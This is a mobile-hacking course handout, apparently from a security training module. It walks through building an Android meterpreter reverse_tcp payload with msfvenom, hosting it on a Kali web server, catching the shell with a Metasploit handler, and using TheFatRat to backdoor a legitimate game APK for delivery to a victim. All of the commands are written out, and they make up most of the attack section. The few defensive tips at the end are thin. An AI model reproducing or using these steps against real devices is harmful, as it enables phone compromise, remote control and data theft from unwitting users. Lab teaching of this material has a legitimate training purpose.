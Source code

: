 # Module 17

**Mobile hacking**

In todays world mobile security is big question because most person use mobile devices in globally. So the device security also has a major factor. Because if mobile device get compromised by hacker he can gain every data about the user.

**Attacking vector of mobile hacking** 

**Point 1 – Device** 

Browser: 

Through browser attacker can perform social engineering attack, he also become man in the middle attack, clickjacking, data caching.

Phone & SMS :

Here also hacker perform social engineering attack, he send the direct message to the victim like he won the prizes or lottery and in that message link also was provided so victim click that link and visit the hacker web page.

Apps:

Attacker or hacker create malicious app with premium content. So it attract the user and and download the app and become the victim.

**POINT 2 – Network**

An user easily use public wifi which is not safe most of the time. Because through wifi packet sniffing, credential dumping, man in the attack can be performed easily.

Lets perform attack with Metasploit


First create payload and than transfer it to the  victim

As far as we had seen this command many time that we had created payload with msfvenom

Command :- msfvenom -p android/meterpreter/reverse\_tcp LHOST=\_\_\_\_ LPORT=\_\_\_\_ X > /root/Desktop/reverse.apk

![](Aspose.Words.b763c26e-bba8-4bbe-a45d-6ba8bf30fe2c.001.png)

Paste this payload to the kali webserver

Command :- cp reverse.apk /var/www/html/asad

Open the kali website

Comman:- service apache2 start

Open the link to the android browser.

Link :- <http://192.168.1.178/asad>

We got the file, save It & install it and  give all the permission what it need.

![](Aspose.Words.b763c26e-bba8-4bbe-a45d-6ba8bf30fe2c.002.jpeg)

Know open the Metasploit and repeat the process, 

- use exploit/multi/handler/ 
- set payload android/meterpreter/reverse\_tcp
- set lhost & rport 
- run 

our listener is open know lets open our payload.

As soon as we open the payload 

We got the shell.

![](Aspose.Words.b763c26e-bba8-4bbe-a45d-6ba8bf30fe2c.003.png)

We can see here, we run the command sysinfo, it reveal the information.


Before installing any apk first check it, choose your safe side to be prevent from hacker.

There is a website which check the apk, it is online tool.

Source :- <https://www.sisik.eu/apk-tool>

And before installing upload that file there and check which type of permission is taking

If we find malicious ignore it.

Lets see another method of android hacking.

Basically these days attacker send the apk formate apps or broadcast the app for the user to install the app

For this attack we will use FATRAT tool to bind the legitimate app with  payload.

Source :- <https://github.com/screetsec/TheFatRat>

Run the tool:

- git clone https://github.com/Screetsec/TheFatRat.git
- cd TheFatRat
- chmod +x setup.sh && ./setup.sh
- cd TheFatRat
- chmod +x chk\_tools 
- ./chk\_tools

Boot the fat rat

- Than select the option 5 – Backdooring original apk
- Give LHOST & LPORT 
- Give the path of original apk which we downloaded that is flappy bird
- Choose the payload, option no 3 – android/meterpreter/reverse\_tcp
- Select tool no 3 – msfvenom  embedded method & type yes.
- Our payload is binded to the original apk
- Cp that file to the kali server.
- Start the apache server.
- Go to the victim phone .
- Enter the link and download that flappy bird file.

Know turn on the listener from Metasploit.

Know boot that game from android phone.

After booting we got the shell in Metasploit

Note:- don’t believe in free premium apk. It will be a trap for the user. But not all are doing this
Md Asad Ansari

Security analyst

asad@craw.in
